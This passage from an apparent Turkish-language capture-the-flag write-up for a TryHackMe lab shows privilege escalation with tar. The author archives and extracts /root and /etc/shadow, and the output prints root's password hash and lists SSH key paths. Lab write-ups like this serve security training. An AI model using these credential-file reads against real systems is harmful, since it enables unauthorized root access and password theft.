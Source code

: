 ```bash
###Compress

hades@hell:/tmp/etc$ /bin/tar -cvf root.tar /root
/bin/tar: Removing leading `/' from member names
/root/
/root/.gnupg/
/root/.gnupg/private-keys-v1.d/
/root/.bashrc
/root/root.txt
/root/.bash_history
/root/.ssh/
/root/.ssh/authorized_keys
/root/.cache/
/root/.cache/motd.legal-displayed
/root/.profile

###Decompress
hades@hell:/tmp/etc$ ls
root.tar  shadow

hades@hell:/tmp/etc$ tar -xvf root.tar 
root/
root/.gnupg/
root/.gnupg/private-keys-v1.d/
root/.bashrc
root/root.txt
root/.bash_history
root/.ssh/
root/.ssh/authorized_keys
root/.cache/
root/.cache/motd.legal-displayed
root/.profile
```

{{< image src="/images/thm/theserverfromhell/root.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Root yetkisi elde etmek için ***shadow*** dosyası arşivlenerek okunur. Daha sonra ***passwd*** dosyası okunur. 

```txt
tar -cvf shadow.tar /etc/shadow
tar -xvf shadow.tar
cat shadow 

root:$6$gOnbjpUs$c0IEFcbrGocU26kyzzPOqzY02e7bcawNexPsEm3oENaBIw7mVz/h9dOgaDaphveFY9ScIetMiI8F/XOnTxJxi1:18520:0:99999:7:::
daemon:*:18513:0:99999:7:::
bin:*:18513:0:99999:7:::
sys:*:18513:0:99999:7:::
sync:*:18513:0:99999:7:::
games:*:18513:0:99999:7:::
man:*:18513:0:99999:7:::
lp:*:18513:0:99999:7:::
mail:*:18513:0:99999:7:::
news:*:18513:0:99999:7:::
uucp:*:18513:0:99999:7:::
proxy:*:18513:0:99999:7:::
www-data:*:18513:0:99999:7:::
backup:*:18513:0:99999:7:::
list:*:18513:0:99999:7:::
irc:*:18513:0:99999:7:::
gnats:*:18513:0:99999:7:::
nobody:*:18513:0:99999:7:::
```